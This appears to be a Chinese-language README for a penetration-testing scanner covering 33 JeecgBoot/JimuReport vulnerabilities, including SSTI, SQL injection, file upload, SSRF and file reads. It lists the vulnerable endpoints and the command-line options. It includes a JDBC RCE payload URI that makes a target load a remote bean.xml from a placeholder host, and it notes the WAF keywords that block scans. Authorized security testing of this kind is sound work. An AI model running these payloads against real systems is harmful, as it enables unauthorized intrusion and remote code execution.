


# jeecgboot-tiplus 漏洞检测 by dollmarker v1.0

JeecgBoot / JimuReport 漏洞检测工具，33 项 POC。二级接口不自动补。不同站点前缀不同（jeecg-boot / api / prod-api / 根），写死会造成误判

工具参考的 POC 见 poc.txt。这里poc是参考网上普遍适用于大部分场景的，该工具只能粗略的扫一遍，实际渗透中若因目标环境不同存在漏洞而打不出，这里请自行变体测试。

注意：勾选完整回显会显示打的完整payload，便于自检

工具界面：

检测结果回显：

## 一、运行

需要 JDK 8（自带 JavaFX）。

    java -jar jeecgboot-tiplus.jar

## 二、使用

### 1. 填目标

| 输入框 | 说明 | 示例 |
|---|---|---|
| 目标根地址 | 站点根路径 | http://1.2.3.4:8080/ |
| 二级接口 | 手动填，不自动补 | jeecg-boot / api / 留空 |
| Token | 需要认证的检测项用 | eyJ0eXAi... |
| 回连地址 | JDBC RCE 用，接收 OOB | http://your-host/bean.xml |
| 间隔(s) | 请求间隔，有 WAF 填 6 | 6 |

### 2. 结果只有四种标记：

[+] 有漏洞
[-] 无漏洞
[?] 待确认（需人工复核）
[!] 请求异常（多为 WAF 拦截）

### 3. 完整回显

勾选「完整回显」后，每条结果会展开完整的请求、响应、复现命令。默认关闭，保持输出简洁。

### 4. 代理

勾选「使用代理」，选协议（HTTP / SOCKS），填主机端口，可选填账号密码。点「测试代理」可先验证连通性。

## 三、命令行

    java -jar jeecgboot-tiplus.jar --cli http://target/api --prefix api --sleep 6

| 参数 | 说明 |
|---|---|
| --prefix 
 | 二级接口，默认空 |
| --token <t> | X-Access-Token |
| --sleep <n> | 请求间隔秒 |
| --only <ids> | 只跑指定编号，如 1,2,20 |
| --echo | 展开完整回显 |
| --oob <url> | OOB 回连地址 |
| --cmd <c> | 执行命令，默认 id |
| --sensitive | 启用 #24 默认口令 / #25 密码重置 |
| --proxy <url> | 代理，如 http://127.0.0.1:8080 |
| --proxy-auth <u:p> | 代理认证 |

## 四、检测项（33 条）

| # | 漏洞 | 端点 | 认证 |
|---|---|---|---|
| 1 | queryFieldBySql SSTI | /jmreport/queryFieldBySql | 未授权 |
| 2 | testConnection JDBC RCE | /jmreport/testConnection | 未授权 |
| 3 | loadTableData SSTI | /jmreport/loadTableData | 未授权 |
| 4 | qurestSql SSTI | /jmreport/qurestSql | 未授权 |
| 5 | queryTableData 任意表读取 | /sys/dict/queryTableData | 未授权 |
| 6 | qurestSql SQL 注入 | /jmreport/qurestSql | 未授权 |
| 7 | getDictItems 注入/读取 | /sys/ng-alain/getDictItemsByTable | 未授权 |
| 8 | show SQL 注入 | /jmreport/show | 未授权 |
| 9 | queryFieldBySql SQL 注入 | /jmreport/queryFieldBySql | 未授权 |
| 10 | getTotalData 注入 | /drag/onlDragDatasetHead/getTotalData | 未授权 |
| 11 | duplicate 时间盲注 | /sys/duplicate/check | 需 Token |
| 12 | jmreport 文件上传 | /jmreport/upload | 未授权 |
| 13 | commonController 上传 | /api/../commonController.do | 绕过 |
| 14 | sys/common/upload | /sys/common/upload | 需 Token |
| 15 | jeecgFormDemo SSRF | /api/../jeecgFormDemoController.do | 绕过 |
| 16 | imController 文件下载 | /chat/imController/showOrDownByurl.do | 未授权 |
| 17 | P3 Biz Chat 读文件 | /sys/p3/chat/download | 未授权 |
| 18 | Aviator save/show | /jmreport/save + /jmreport/show | 未授权 |
| 19 | Fastjson JNDI | /api/../jeecgFormDemoController.do | 需 Token |
| 20 | querySysUser 泄露 | /sys/user/querySysUser | 未授权 |
| 21 | checkOnlyUser 枚举 | /sys/user/checkOnlyUser | 未授权 |
| 22 | actuator httptrace | /actuator/httptrace | 未授权 |
| 23 | 数据源账密泄露 | /sys/dataSource/list | 未授权 |
| 24 | 默认口令 | /sys/login | - |
| 25 | passwordChange 改密 | /sys/user/passwordChange | 未授权 |
| 26 | fileTree 目录遍历 | /online/cgform/head/fileTree | 未授权 |
| 27 | category column 注入 | /sys/category/childList | 未授权 |
| 28 | parseSql 注入 | /online/cgreport/head/parseSql | 未授权 |
| 29 | sendMsg 模板注入 | /sys/message/sysMessageTemplate/add | 需 Token |
| 30 | uploadImgByHttp SSRF | /sys/common/uploadImgByHttp | 未授权 |
| 31 | auto/export 未授权导出 | /jmreport/auto/export | 未授权 |
| 32 | 报表列表未授权枚举 | /jmreport/query/report/folder/template | 未授权 |
| 33 | dict/list 未授权 | /jmreport/dict/list | 未授权 |

完整 POC 见 poc.txt。这里poc是参考网上查询的，该工具只能粗略的扫一遍，实际渗透中因目标环境可能要作个变体

## 五、判定方式

所有检测项采用「正例 + 反例」差分判定，单包成功不算数：

| 类型 | 判定 |
|---|---|
| SSTI | 随机算术求值 + 破坏运算符反例 |
| SQL 注入 | 随机标记回显 + 破坏函数名反例 + 换标记二次确认 |
| 信息泄露 | 正例有数据 + 随机值反例无数据 |
| 时间盲注 | sleep(5) 慢 vs sleep(0) 不慢 |
| JDBC RCE | 驱动加载差分 + 不存在的类反例 |

不确定的一律标 [?]，不会虚报，需人工自检。

## 六、JDBC 利用页签

参考 jeecgBootAttack 的交互：

1. 选驱动（postgresql / mysql / h2）
2. 填 jdbc uri，点「填模板」可生成示例
3. 点「执行」

pgsql 示例：

    jdbc:postgresql://127.0.0.1:5432/x?socketFactory=org.springframework.context.support.FileSystemXmlApplicationContext&socketFactoryArg=http://YOUR-HOST/bean.xml

## 七、安全边界

| 项 | 限制 |
|---|---|
| #24 默认口令 | 只试 3 组，需勾「敏感操作」 |
| #25 passwordChange | 只用不存在的用户名探测，不重置任何真实账号 |
| #19 Fastjson | 只探接口可达，不发真实 JNDI |
| #12 #14 上传 | 只传无害探针文件，不内置 webshell |
| #16 #17 读取 | 只读 /etc/passwd、win.ini |
| #2 H2 命令执行 | 需勾「敏感操作」+ 填回连地址 |

## 八、注意事项

1. WAF 会 RST。被拦截的关键词包括 select、from、updatexml、../、freemarker。出现 [!] 多为 WAF 而非接口不存在。
2. 建议间隔填 6 秒
3. 二级接口不自动补。不同站点前缀不同（jeecg-boot / api / prod-api / 根），写死会造成误判，这点在很多工具上都是写死的。

## 九、构建

    mvn clean package

产物：target/jeecgboot-tiplus.jar

零第三方依赖，仅需 JDK 8 + Maven。

## 十、源码结构

    src/main/java/com/jeescan/
    ├── Launcher.java        入口（GUI / CLI 分发）
    ├── FxApp.java           JavaFX 应用
    ├── Cli.java             命令行
    ├── core/
    │   ├── Json.java        零依赖 JSON
    │   ├── Http.java        HTTP 客户端（RST 感知 / 代理）
    │   ├── Detector.java    检测器基类
    │   ├── Result.java      结果模型
    │   ├── Engine.java      扫描引擎
    │   └── Registry.java    33 个检测器注册
    ├── checks/              检测器实现
    └── ui/                  界面

## 免责声明

仅用于已授权的安全测试，使用该工具造成的一切后果自负。